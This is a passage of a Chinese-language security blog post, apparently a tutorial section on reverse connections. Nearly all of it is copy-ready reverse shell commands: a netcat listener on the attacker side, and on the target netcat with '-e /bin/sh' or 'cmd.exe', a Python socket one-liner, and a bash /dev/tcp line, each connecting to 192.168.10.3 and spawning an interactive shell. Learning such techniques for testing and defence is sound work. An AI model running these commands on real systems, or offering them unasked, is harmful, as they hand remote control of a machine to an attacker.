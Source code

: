 ![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfT5QftmebZMxmX1Qvx7nwQrqkrILzQgHQiaertqCBV6IPKyyAFr61Y3Sg/640?wx_fmt=png)

2. 反向连接  

攻击机器监听本地 1234 端口

```
nc -lvp 1234
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTgicWEb3VYiaibjIYyvq4zuIzOiafXOAfCmVK9E2IqXSLuSbRDflV6iam4Bg/640?wx_fmt=png)

目标机器执行  

```
nc <ip> 1234 -e /bin/sh linux
nc <ip> 1234 -e cmd.exe windows
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTDeprzVRnknd2JXbpUov3OtiaNR2jcEEKKJACAd7UiadalZehtZgwaU2Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTv5ng8KZzolJqpLTb2TdicGNpQic97HkUIX2Ooib87S9VJUnFgf4WC9geg/640?wx_fmt=png)

在一般情况下目标机器是没有 nc 的，这里可以用其他工具或者编程语言来代替 nc  

```
python反向shell
```

攻击机器：

```
nc -lvp 2222
```

目标机器：

```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.10.3',2222));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

bash 反向 shell

攻击机器：

```
nc -lvp 2222
```

目标机器：

```
bash -i >& /dev/tcp/192.168.10.3/2222 0>&1
```

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

一如既往的学习，一如既往的整理，一如即往的分享。感谢支持![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icl7QVywL8iaGT0QBGpOwgD1IwN0z9JicTRvzvnsJicNRr2gRvJib6jKojzC5CJJsFPkEbZQJ999HrH5Gw/640?wx_fmt=png)  
